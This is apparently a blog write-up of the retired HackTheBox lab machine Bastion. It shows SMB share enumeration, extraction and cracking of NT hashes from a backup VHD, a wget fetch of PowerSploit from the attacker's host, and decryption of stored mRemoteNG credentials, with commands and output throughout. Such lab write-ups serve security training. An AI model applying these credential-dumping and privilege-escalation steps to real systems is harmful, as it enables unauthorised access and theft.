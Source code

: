 ```yaml
---
layout: post
title:  "HTB - Bastion"
date:   2020-06-06 20:00 +0100
tags: writeups
initial: 2019-09-06
---
```

Writeup for the retired HTB machine Bastion  
Link: https://www.hackthebox.eu/home/machines/profile/186  
IP: 10.10.10.134

<!--more-->

## Recon
A qick portscan reveals multiple open ports:  
```
PORT    STATE SERVICE
22/tcp  open  ssh
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

## SMB
A closer investigation of the SMB service reveals that it is allowing anonymous access with disabled message signing, which in turn enables public enumeration.  
`msf5 > use auxiliary/scanner/smb/pipe_auditor`  
This yields some interesting endpoints: 
```
[+] 10.10.10.134:445      - Pipes: \netlogon, \lsarpc, \samr, \atsvc, \epmapper, \eventlog, \InitShutdown, \lsass, \LSM_API_service, \ntsvcs, \protected_storage, \scerpc, \srvsvc, \trkwks, \W32TIME_ALT, \wkssvc

```
`msf5 > use auxiliary/scanner/smb/smb_enumshares`
```
[-] 10.10.10.134:139      - Login Failed: Unable to Negotiate with remote host
[+] 10.10.10.134:445      - ADMIN$ - (DISK) Remote Admin
[+] 10.10.10.134:445      - Backups - (DISK) 
[+] 10.10.10.134:445      - C$ - (DISK) Default share
[+] 10.10.10.134:445      - IPC$ - (IPC) Remote IPC
```
So let's look into the shares.
First, let's mount the Backups share:  
`sudo mount -t cifs -o user=guest //10.10.10.134/Backups /mnt/`
There's a Backup of a full client machine at `WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351` to be discovered.



## The Backup
This VHD, copied and then mounted on Linux enabled closer investigation:
`sudo guestmount -a 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd -i --ro /mnt/guest/`

With an unbooted Windows installation like this, it is possible to copy registry hives from `C:\Windows\system32\config\` and dump the NTHash for the users:
```
apalax@raudfjorden:~/writeups/HTB/Labs/Bastion$ pwdump SYSTEM SAM 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

```
The syntax for these hashes is `username:id:LM-Hash:NT-Hash`. These are then copied into `hashes.txt` and handed off to john for a dictionary attack:
```
john --format=nt hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
bureaulampje     (L4mpje)
2g 0:00:00:00 DONE (2019-09-05 19:36) 2.222g/s 10439Kp/s 10439Kc/s 10444KC/s burg772v..burdy1
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```
So it seems we have a user login / password combination.  
If we connect via SSH, we're dropped into a CMD (?).  
`user.txt` can be found at the desktop and printed with `type user.txt`.


## Road to root
A try was to make use of Matt Graebers tool, Powersploit. 

First, Powersploit needs to be downloaded:  
`wget http://10.10.15.195:8000/PowerSploit-3.0.0.zip -OutFile ps.zip`  
So download the Privesc folder into the PS Module path, import the module and run:  
```
Import-Module Privesc
Get-Command -Module Privesc
    <available commands>
Invoke-AllChecks
    <stuff stuff>
    (...)

[*] Checking %PATH% for potentially hijackable .dll locations...                                           


HijackablePath : C:\Users\L4mpje\AppData\Local\Microsoft\WindowsApps\                                      
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Users\L4mpje\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll' -Command '...'    
```
Which seems to not work. Poking around shows an SSH config file reveals: 
```
Match Group administrators                                                                       
       AuthorizedKeysFile __PROGRAMDATA__/ssh/administrators_authorized_keys 
```
unfortunately, we don't have write access to that folder as user, so another path for privilege escalation is needed.

### mRemoteNG
A more thorough investigation reveals that mRemoteNG is installed, a remote administration tool.  
On closer examination it is revealed that this software suffers from insecure password storage issues.  
The credentials are stored in a `connection.xml`:
```
PS C:\Users\L4mpje\AppData\Roaming\mRemoteNG> type .\confCons.xml
```
Which can be decrypted with [mremoteng-decrypt](https://github.com/haseebT/mRemoteNG-Decrypt).  
This is done by providing the decrypter the administrator password hash:  
```
python mremoteng_decrypt.py -s "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==" 
Password: thXLHM96BeKL0ER2
```

This yields the password for the Administrator account. Connect, `cd` to Desktop and print the flag with `type root.txt`.

